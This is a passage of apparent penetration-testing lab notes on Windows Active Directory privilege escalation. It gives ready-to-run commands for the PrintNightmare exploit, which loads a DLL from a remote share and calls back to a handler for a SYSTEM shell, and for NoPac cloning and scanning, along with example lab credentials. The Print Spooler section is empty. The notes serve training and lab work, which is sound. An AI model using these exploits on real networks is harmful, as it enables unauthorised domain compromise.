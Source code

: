 ```bash
# In the second terminal we will connect via ssh with the host machine:
ssh $user@$ip

# Then we run the exploit:
sudo python3 /opt/CVE-2021-1675/CVE-2021-1675.py $user/$user:$password@$domainControllerIP  '\\$ipHostMachine\$ShareName\$filename.dll'
# Example:
# sudo python3 /opt/CVE-2021-1675/CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

The payload will then call back to our multi handler giving us an elevated SYSTEM shell.

##  Print Spooler 
The Print Spooler exploitation leverages the Windows Print Spooler service in conjunction with the SeImpersonatePrivilege privilege. The goal is to impersonate a SYSTEM token to escalate privileges. Tools like PrintSpoofer automate this process effectively. Below are detailed steps for exploiting this vulnerability:



## 🪤 NoPac (SamAccountName Spoofing)

!!! tips "Detailed explanations"
	- [noPac: A Tale of Two Vulnerabilities That Could End in Ransomware](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware).
	- [SAM Name impersonation](https://techcommunity.microsoft.com/users/daniel%20naim/164126).

This vulnerability encompasses two CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), allowing for intra-domain privilege escalation from any standard domain user to Domain Admin level access in one single command.

| 42278                                                                      | 42287                                                                                         |
| -------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `42278` is a bypass vulnerability with the Security Account Manager (SAM). | `42287` is a vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS. |

```bash
# Ensuring Impacket is Installed
git clone https://github.com/SecureAuthCorp/impacket.git

python setup.py install 

# Cloning the NoPac Exploit Repo
git clone https://github.com/Ridter/noPac.git
```

Once Impacket is installed and we ensure the repo is cloned to our attack box, we can use the scripts in the NoPac directory to check if the system is vulnerable using a scanner (scanner.py) then use the exploit (noPac.py) to gain a shell as NT AUTHORITY/SYSTEM. 


```bash
# First we will scan:
sudo python3 scanner.py $domain/$userSamAccounName:$password -dc-ip $domainControllerIP -use-ldap
# Example:
# sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```
